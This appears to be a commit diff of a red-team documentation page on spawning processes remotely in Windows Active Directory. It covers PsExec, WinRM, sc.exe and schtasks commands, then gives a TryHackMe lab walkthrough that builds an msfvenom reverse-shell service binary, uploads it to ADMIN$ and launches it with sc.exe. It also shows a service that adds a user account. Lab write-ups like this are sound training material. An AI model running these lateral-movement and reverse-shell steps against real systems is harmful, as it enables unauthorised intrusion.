

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/pivot/spawning.md, in a window 1280 px wide and 1400 px high, scrolled down 2092 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/pivot/spawning.md
+++ b/source/docs/pivot/spawning.md
@@ -1 +1,116 @@
 # Spawning processes remotely
+
+| Remote Session           | Port(s)                  | Requirements                               |
+|--------------------------|--------------------------|--------------------------------------------|
+| PsExec                   | TCP/445                  | Account must be an administrator           |
+| WinRM over HTTP          | TCP/5985                 | Group Memberships: Remote Management Users |
+| WinRM over HTTPS         | TCP/5986                 | Group Memberships: Remote Management Users |
+| DCE/RPC                  | TCP/135, TCP/49152-65535 | Group Memberships: Administrators          |
+| RPC over SMB Named Pipes | TCP/445                  | Group Memberships: Administrators          |
+| RPC over SMB Named Pipes | TCP/139                  | Group Memberships: Administrators          |
+
+## PsExec
+
+| ![PsExex Auth Flow](../../_static/images/psexec.png) |
+|:--:|
+| Authentication workflow |
+
+1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
+2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service
+binary with `C:\Windows\psexesvc.exe`.
+3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.
+
+Start a remote command prompt:
+
+    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe
+
+## WinRM
+
+PowerShell:
+
+    $username = 'user.name'
+    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
+    $credential = [pscredential]::new($username, $password)
+    $session = New-PSSession -ComputerName target-ip -Credential $credential
+    $session | Enter-PSSession
+
+Cleanup:
+
+    $session | Remove-PSSession
+
+A single command:
+
+    $username = 'user.name'
+    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
+    $credential = [pscredential]::new($username, $password)
+    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}
+
+## sc.exe
+
+Remote command execution by registering and running services on a host. The service is configured to run a command
+at start up.
+
+| ![RCP](../../_static/images/sc-RPC.png) |
+|:--:|
+| Try authenticating to the Service Control Manager using RPC first. |
+
+If RPC fails:
+
+| ![SMB](../../_static/images/sc-SMB.png) |
+|:--:|
+| Try communicating using an SMB named pipe |
+
+
+Register the dummy service (binpath is the command to run on the host)
+
+    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto
+
+Start the remote service to run the command:
+
+    sc.exe \\<IP Target> start <fakeservice>
+
+Stop and cleanup:
+
+    sc.exe \\<IP Target> stop <fakeservice>
+    sc.exe \\<IP Target> delete <fakeservice>
+
+## schtasks
+
+Remote command/payload execution by registering a scheduled task on a host.
+
+Create and run Task:
+
+    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
+    schtasks /s target-ip /run /tn "Task"
+
+Cleanup:
+
+    schtasks /s target-ip /tn "Task" /DELETE /F
+
+## Get flag
+
+Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to
+the attack machine (Kali VM in my case).
+
+Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:
+
+    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com
+
+On attack machine, create a service binary payload:
+
+    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe
+
+Use the given credentials to transfer the file to the IIS server:
+
+    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>
+
+Start a listener to receive the reverse shell from the IIS server:
+
+    sudo nc -lnvp 4444
+
+Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):
+
+    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
+    sc.exe \\thmiis.za.tryhackme.com start pwniis
+
+Run the `flag.exe` file on the users desktop on THMIIS.
```
Also changed, not shown: source/docs/pivot/moving.md (+1 -1 lines), source/_static/images/psexec.png (added), source/_static/images/sc-RPC.png (added), source/_static/images/sc-SMB.png (added).
